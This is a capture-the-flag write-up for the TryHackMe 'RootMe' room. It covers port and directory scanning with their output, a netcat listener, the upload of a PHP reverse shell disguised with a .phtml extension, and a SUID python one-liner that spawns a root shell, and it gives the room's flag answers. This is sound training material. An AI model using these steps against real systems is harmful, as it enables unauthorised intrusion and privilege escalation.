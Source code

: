 # RootMe  ctf room of tryhackme

## Task2 : Reconnaissance

### 1.Scan the machine, how many ports are open : 2
- run nmap and scan the machine
```bash
nmap -sS -sV 10.10.157.26

Starting Nmap 7.60 ( https://nmap.org ) at 2022-09-10 13:16 BST
Nmap scan report for ip-10-10-157-26.eu-west-1.compute.internal (10.10.157.26)
Host is up (0.067s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 02:DD:4F:EB:17:1F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.49 seconds
```
### 2. What version of Apache is running:2.4.29
- from the nmap scan

### 3. What service is running on port 22: ssh
- from the nmap scan

### 4. What is the hidden directory :/panel/

- run dir scan using gobuster

```bash

gobuster dir -u 10.10.157.26 -w /root/Desktop/Tools/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.157.26
[+] Threads:        10
[+] Wordlist:       /root/Desktop/Tools/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2022/09/10 13:20:43 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.hta (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
===============================================================
2022/09/10 13:20:53 Finished
===============================================================

```



## Task3 

1. setup a netcat listener on the attacker machine
```
nc -lvnp 1234
```

2. search for a reverseshell exploit in php
[here](https://github.com/pentestmonkey/php-reverse-shell.git)

3. change extention of the file to phtml or php.txt

4. dont forget to change ip and port in the file

5. upload the file and you will receive the shell

```shell

$ find / -name user.txt 2>/dev/null 
/var/www/user.txt
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}

```

## Task4:

### 1. Search for files with SUID permission, which file is weird: /usr/bin/python

- run this command to fine all files with suid bit

```
find / -perm /4000 2>/dev/null
```

### 2. Find a form to escalate your privileges.

- we can use this exploit to get root access check [here](https://gtfobins.github.io/gtfobins/python/)

```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

### 3. root.txt

```
#find / -name root.txt 2>/dev/null
#/root/root.txt
#cat /root/root.txt
#THM{pr1v1l3g3_3sc4l4t10n}
```


